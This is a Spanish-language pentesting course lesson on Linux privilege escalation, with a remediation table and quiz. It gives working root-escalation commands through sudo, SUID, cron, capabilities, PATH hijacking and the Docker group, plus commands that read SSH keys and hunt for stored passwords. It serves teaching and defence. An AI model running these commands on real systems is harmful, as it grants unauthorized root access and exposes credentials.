


# 05 — Vectores de escalada en Linux

**Curso:** C|PTA · Pentesting y Técnicas de Ataque  
**Tiempo de lectura:** 40–50 min  
**Laboratorio asociado:** validación controlada de sudo, SUID y cron

---

## 5.1 Qué es la escalada de privilegios

La escalada de privilegios es pasar de un usuario con permisos limitados a **root** (o a otro usuario con más privilegios). No siempre requiere un exploit: muchas veces es una **mala configuración**.



| Tipo | Riesgo | Complejidad |
|---|---|---|
| Sudo mal configurado | Crítico | Baja |
| SUID explotable | Crítico | Baja-media |
| Cron escribible | Crítico | Baja |
| Capabilities | Alto | Media |
| PATH hijacking | Alto | Baja |
| Credenciales expuestas | Crítico | Baja |
| Kernel exploit | Crítico | Alta; puede tumbar el sistema |

> [!IMPORTANT]
> Antes de explotar, confirma que el vector existe y que entiendes el impacto. Un kernel exploit en producción puede causar una caída; una regla sudo mal leída puede hacerte perder horas.

---

## 5.2 Sudo mal configurado

```bash
sudo -l
```

### Patrones peligrosos

| Regla | Por qué es peligrosa |
|---|---|
| `NOPASSWD: ALL` | Root sin contraseña |
| `NOPASSWD: /bin/bash` | Shell root directa |
| `NOPASSWD: /usr/bin/vi` | `:!bash` escapa |
| `NOPASSWD: /usr/bin/find` | `-exec /bin/bash \;` |
| `NOPASSWD: /usr/bin/awk` | `system()` |
| `NOPASSWD: /usr/bin/systemctl` | Unidades y servicios |
| `NOPASSWD: /usr/bin/env` | Ejecuta cualquier comando |
| `NOPASSWD: /usr/bin/python3` | `os.system()` |


*GTFOBins documenta cómo escapar de binarios comunes. Fuente: GTFOBins.*

### Ejemplo con `find`

```bash
sudo find /tmp -exec /bin/bash \; -quit
```

Si `find` está permitido con sudo, el `-exec` se ejecuta como root.

### Ejemplo con `vi`

```bash
sudo vi /tmp/x
# Dentro de vi:
:!bash
```

### Ejemplo con `systemctl`

```bash
# Si puedes editar una unidad o usar una existente
sudo systemctl status apache2
# Escapar a shell desde el pager
!bash
```

> [!TIP]
> GTFOBins documenta el escape de cada binario. Busca el binario exacto y la forma de invocación permitida.

---

## 5.3 SUID y SGID

```bash
find / -perm -4000 -type f 2>/dev/null
```

| Binario | Escape típico |
|---|---|
| `find` | `find . -exec /bin/sh -p \; -quit` |
| `vim` | `vim -c ':!/bin/sh'` |
| `nmap` | `--interactive` → `!sh` (versiones antiguas) |
| `bash` | `bash -p` |
| `cp` | Copiar `/bin/bash` y conservar SUID |
| `less` | `!sh` |
| `more` | `!sh` |

### Ejemplo conceptual con `cp`

```bash
# Si cp tiene SUID root
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
/tmp/bash -p
```

> [!WARNING]
> No todos los SUID son explotables. Verifica propietario, permisos y comportamiento. Un SUID de un binario que no ejecuta comandos puede no servir.

---

## 5.4 Cron y timers

Los trabajos programados que se ejecutan como root son un vector clásico si el script o su directorio son escribibles.

```bash
crontab -l
cat /etc/crontab
ls -la /etc/cron.*
systemctl list-timers
```

### Escenario

```text
* * * * * root /opt/scripts/backup.sh
```

Si `/opt/scripts/backup.sh` es escribible por tu usuario:

```bash
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' >> /opt/scripts/backup.sh
# Esperar a que cron lo ejecute
/tmp/rootbash -p
```

### PATH hijacking en cron

Si el script llama a un comando sin ruta absoluta (`tar`, `cp`, `date`) y el `PATH` incluye un directorio escribible, puedes secuestrar el comando.

```bash
# En el directorio escribible
echo '/bin/bash -p' > tar
chmod +x tar
```

> [!NOTE]
> Los cron jobs con rutas relativas y `PATH` amplio son un vector frecuente. Revisa el script completo, no solo la línea de cron.

---

## 5.5 Capabilities

```bash
getcap -r / 2>/dev/null
```

| Capability | Uso ofensivo |
|---|---|
| `cap_setuid+ep` | Cambiar UID a 0 |
| `cap_setgid+ep` | Cambiar GID |
| `cap_dac_read_search+ep` | Leer archivos sin permiso |
| `cap_dac_override+ep` | Ignorar permisos |
| `cap_sys_admin+ep` | Montajes y namespaces |

### Ejemplo con Python

```bash
# Si python3 tiene cap_setuid
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> [!TIP]
> Las capabilities son menos visibles que SUID. Inclúyelas siempre en la enumeración.

---

## 5.6 PATH hijacking

Si un script privilegiado llama a un comando sin ruta absoluta y el `PATH` incluye un directorio escribible:

```bash
echo $PATH
```

```bash
# Crear un binario malicioso con el nombre del comando
echo '/bin/bash -p' > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
```

> [!WARNING]
> El PATH hijacking requiere que el script se ejecute con privilegios y que el directorio escribible esté antes en el PATH. No es automático.

---

## 5.7 Credenciales expuestas

| Ubicación | Qué buscar |
|---|---|
| `~/.bash_history` | Comandos con contraseñas |
| `~/.ssh/` | Claves privadas |
| `/var/www` | `.env`, `config.php` |
| `/opt` | Scripts con credenciales |
| `/etc` | Configuraciones |
| Backups | `.bak`, `.old`, `.zip` |

```bash
grep -Ri "password" /var/www 2>/dev/null
find / -name "*.bak" -o -name "*.old" 2>/dev/null | head
cat ~/.ssh/id_rsa
```

> [!NOTE]
> Una credencial válida puede ser más valiosa que un exploit. Úsala solo dentro del alcance y documenta el acceso.

---

## 5.8 Kernel y servicios

### Kernel

```bash
uname -a
searchsploit linux kernel <version>
```

> [!WARNING]
> Los exploits de kernel pueden causar panic, corrupción o pérdida de datos. Úsalos solo en laboratorio y con snapshot. En producción, requieren autorización y ventana.

### Servicios

| Servicio | Vector |
|---|---|
| `docker` | Montar `/` y chroot |
| `lxd` | Contenedor privilegiado |
| `systemd` | Unidades escribibles |
| `sudo` | Reglas |
| `cron` | Scripts |
| `NFS` | `no_root_squash` |

### Docker

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Si estás en el grupo `docker`, puedes montar el host y obtener root.

---

## 5.9 Árbol de decisión



---

## 5.10 Remediación

| Vector | Control |
|---|---|
| Sudo | Reglas específicas, sin comodines, sin shells |
| SUID | Inventario y eliminación de bits innecesarios |
| Cron | Rutas absolutas, permisos estrictos, `PATH` controlado |
| Capabilities | Inventario y mínimo privilegio |
| PATH | `PATH` seguro en scripts |
| Credenciales | Gestión de secretos, rotación |
| Kernel | Parches y ventanas de actualización |
| Docker | Grupo restringido, rootless |

---

## 5.11 Autoevaluación

1. ¿Por qué `sudo -l` es el primer comando?
2. ¿Qué hace `find` con SUID y cómo se explota?
3. ¿Cómo funciona un ataque de cron?
4. ¿Qué es una capability y por qué es peligrosa?
5. ¿Qué es PATH hijacking?
6. ¿Qué riesgo tiene un kernel exploit?
7. ¿Cómo remediarías un SUID innecesario?

---

**Anterior:** [04 — Enumeración](04-enumeracion-linpeas.md) · **Siguiente:** [06 — Laboratorio Kali](06-laboratorio-kali.md)
